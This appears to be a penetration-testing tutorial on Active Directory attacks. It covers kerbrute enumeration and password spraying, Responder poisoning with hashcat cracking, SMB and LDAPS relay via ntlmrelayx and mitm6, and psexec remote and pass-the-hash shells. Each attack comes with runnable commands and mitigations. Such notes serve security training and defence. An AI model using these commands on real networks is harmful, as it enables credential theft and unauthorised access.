

# AD Initial Attack Vectors

## Brute-Forcing Domain Users:

* This is useful for finding users stored in the DC first.
* This can help later with different attack vectors.

Method (using Kerbrute):

1. Start Kali Linux and enter:

```bash
root@kali:~# kerbrute userenum -d [Domain] --dc [DC IP] [Path to Wordlist]
```

-> "-d" switch: specifies the domain we are targeting.

-> You may also use Kerbrute for things like brute-forcing passwords for a single user, password spraying in Active Directory environment (with Kerberos authentication). Example of a password spray:

```bash
root@kali:~# kerbrute passwordspray -d [Domain] [Path to list of usernames] [Password] --dc [DC IP] 
```


## LLMNR Poisoning:


* This stands for Link Local Multicast Name Resolution. It's former name was NBT-NS.
* LLMNR helps to identify hosts when the DNS fails.
* Its vulnerability comes from the fact that, when responded to correctly, it gives a user's username and a NTLMv2 hash in a MITM attack, which we may be able to crack to gain credentials.
* Basically, LLMNR Poisoning is when a victim fails to access a resource (e.g., network shares, devices, web servers etc.), the victim sends a broadcast on the network asking if anyone knows about where the share is. The attacker, with Responder, pretends to be the resource and says "Send me the credentials.". The victim machine sends the NTLM hash thinking it will be able to access the resource. Responder intercepts it and this can be cracked. In essence, the response is being "poisoned".
* WPAD (Web Proxy Auto-Discovery Protocol) automatically tells computers which web proxy to use on a network so Windows devices can discover them automatically. If Windows gets a response when it tries to look for WPAD, it assumes it's legitimate and connects automatically.
* NTLM relay works by sending proof that the client machine you're impersonating knows the password hash live to the victim machine.&#x20;


Method (using Responder):

1. Start Kali Linux and start Responder like below:


```bash
root@kali:~# sudo responder -I eth0 -dwP
```


-> "-d" switch: we are answering and responding to DHCP broadcast requests.

-> "-w" switch: WPAD rogue proxy server switch. Helps us capture some hashes.

-> "-P" switch: forces authentication for the proxy


2. This will capture hashes, with information on the type of hash (NTLMv2 below), the domain, the username logged in and the password hash. Example:

<figure><figcaption></figcaption></figure>

3. Time to crack the hash. Store the hash in a text file and attempt to crack it using HashCat. Example:


```shellscript
root@kali:~# hashcat -m 5600 hashfile.txt /usr/share/wordlist.txt        
```



LLMNR Poisoning Mitigation:

* Disable LLMNR/NBT-NS.
* If we can't disable LLMNR/NBT-NS, implement Network Access Control to prevent unauthorised devices communicating on a network and prevent them from responding to LLMNR requests and thus obtaining hashes from the victim machines.&#x20;


***

## SMB Relay Attacks:


* This stands for Server Message Block Relay attacks.
* SMB Relay is relaying captured hashes to specific machines to attempt to gain access, rather than cracking them. You can't relay hashes to yourself.
* This is particularly useful if you unable to crack the hashes, perhaps due to a good victim password policy.&#x20;
* We want SMB signing to be turned off so that hackers can impersonate users to other machines by abusing a trust relationship between the machine and the user the hacker is impersonating.&#x20;



IMPORTANT PREREQUISITES: SMB signing must be disabled/unenforced on the target. Workstations tend to have this, whereas servers like the Domain Controller tend to have SMB signing enabled. Relayed user credentials must be those of an administrator to provide actual value.



Method:

1. Use Nmap to identify hosts without SMB signing:


```bash
root@kali:~# nmap --script=smb2-security-mode.nse -p445 10.0.2.5 -Pn
```


-> "nmap": name of the tool being used.

-> "--script=smb2-security-mode.nse": name of the script being used to check for SMB signing.&#x20;

-> "-p445": specifies port 445 - the SMB service port. This is used by Windows for file-sharing and AD traffic.&#x20;

-> "10.0.2.5": target IP address. Can be a DC, server or workstation to scan. You can replace this with a subnet to scan as well.&#x20;

-> "-Pn": forces probing the target. Useful if you can't ping to a machine you know is alive.&#x20;


Example:

<figure><figcaption></figcaption></figure>

-> You want "Message signing enabled but not required"


2. Turn SMB and HTTP off to ensure hashes are being relayed. This relays it to another machine - the attack doesn't just stop at capturing the hash - to help the attacker act as the victim on another machine.


```bash
root@kali:~# sudo mousepad /etc/responder/responder.conf
```


3. Run responder with the same code you used to capture the hashes for LLMNR poisoning.&#x20;
4. Use NTLM relay. Example:


```shellscript
root@kali:~# ntlmrelayx.py -tf targetfile.txt -smb2support 
```


-> "ntlmrelayx.py": the Python script for NTLM relay execution.

-> "-tf": the "target file" switch specifying the text file containing a list of IP addresses for machines to attack with SMB signing turned off.&#x20;

-> "-smb2support": tells NTLM Relay to use SMB2 instead of SMB1, which is most likely disabled on modern Windows systems. This helps for successful authentication to modern Windows hosts.&#x20;


SMB Relay Mitigation:

1. Enable SMB signing on all devices to stop the attack. But, this can reduce performance with file management.
2. Disable NTLM authentication to completely stop the attack. But, this might stop Kerberos - our main method of authentication on Active Directory - from working meaning Windows will just default back to NTLM making the attack possible again.&#x20;
3. Account tiering to limit domain admins to specific tasks. But, this policy can be difficult to enforce.
4. Local administrator restriction to prevent a lot of attacks because SMB relay is only really effective for admin accounts&#x20;


***

## Gaining Shell Access:

* You can gain shells through Metasploit, psexec.py etc.
* Can help find sensitive files and information.


Method (using Metasploit):

1. Start Metasploit Framework on Kali Linux and search for "psexec". Look for "exploit/windows/smb/psexec" or something along those lines.&#x20;
2. Use it and set the payload to "windows/x64/meterpreter/reverse\_tcp". You could also replace x64 with x32 depending on the architecture of the target machine.&#x20;
3. Set RHOST to the IP of the target machine.&#x20;
4. Set SMB domain to the Active Directory domain name.
5. Set the SMB user to the user on the target machine.
6. Set the SMB password for the user on the machine.&#x20;
7. Run the command.&#x20;

Extension (to do an NTLM/hash attack):

1. Unset the subdomain:

```
msf6 exploit(windows/smb/psexec) > unset smbdomain
```

2. Set the local user you're on to Administrator:

```
msf6 exploit(windows/smb/psexec) > set smbuser administrator 
```

3. Set the password hash for the Administrator account:

```
msf6 exploit(windows/smb/psexec) > set smbass [hash]
```

4. Run the exploit.


Method (using just psexec.py):

1. Run this command in Kali:

```bash
root@kali:~# psexec.py [AD domain]/[username]:"[password]"@[target IP]
```

-> "psexec.py": uses SMB port 445 to attempt remote shell for remote code execution using valid admin credentials.&#x20;


This method assumes you know the valid credentials, unhashed. If you don't know the unhashed password, look below.



If psexec.py is blocked or doesn't work, replace the "ps" part in the command with "wmi" or "smb" and see if that works.&#x20;


Extension (to attempt remote shell through only password hash):

1. Run this command in Kali:

```bash
root@kali:~# psexec.py administrator@[target ip] -hashes [admin account password hash]
```

***

## IPv6 Attacks:

* This works because IPv6 may be turned on for machines in AD, but the machines may only be actually using IPv4.&#x20;
* This means there's no one doing DNS services for IPv6. The attacker can thus listen to IPv6 traffic and receive traffic.
* This can help to get authentication to the Domain Controller through SMB or LDAP. This can also help to get credentials in the form of NTLM as the attacker receives the IPv6 traffic.&#x20;


Method (using MITM6):

1. Set up NTLM Relay to get the credential hashes - relaying NTLM authentication:

```bash
root@kali:~# ntlmrelayx.py -6 -t ldaps://[Domain Controller IP] -wh fakewpad.[AD domain].local -l loot
```

-> "ntlmrelayx.py": runs the NTLM Relay X service.

-> "-6": specifies IPv6 support to catch IPv6 authentication Windows didn't mean to send (because it mainly uses IPv4).

-> "-t": specifies the target for the relay at ldaps://\[Domain Controller IP]. This is because NTLM relay to LDAPS can allow for modifying AD objects, adding users to groups etc. &#x20;

-> "ldaps://\[Domain Controller IP]": using LDAP relay attacks the AD itself whereas an SMB relay from before would just attack a machine.&#x20;

-> "-wh": sets up a fake WPAD host. Tells the tool to pretend to be a WPAD server for this domain name so when a Windows machine looks for WPAD, it receives a response from the attacker saying they are WPAD for Windows to automatically connect and initiate communication and trust the response. It then sends NTLM authentication automatically. From here, the authentication is relayed by the attacker to the DC over LDAPS.

-> "-l loot": folder to store anything ntlmrelayx extracts is stored here.&#x20;


2. Run MITM 6. The store of the data will be in the folder you made. Use the code below:

```bash
root@kali:~# mitm6 -d [domain].local
```


Research where to go from here to complete the attack.



IPv6 Attack Mitigation:

1. Disable DHCPv6 (DHCP for IPv6) traffic and incoming router requests. Don't block IPv6 across the network entirely, which could have unwanted side-affects.&#x20;
2. If WPAD is not in use internally, just disable it.
3. Put Administrative users in the protected users group/make them sensitive to prevent impersonation and delegation.
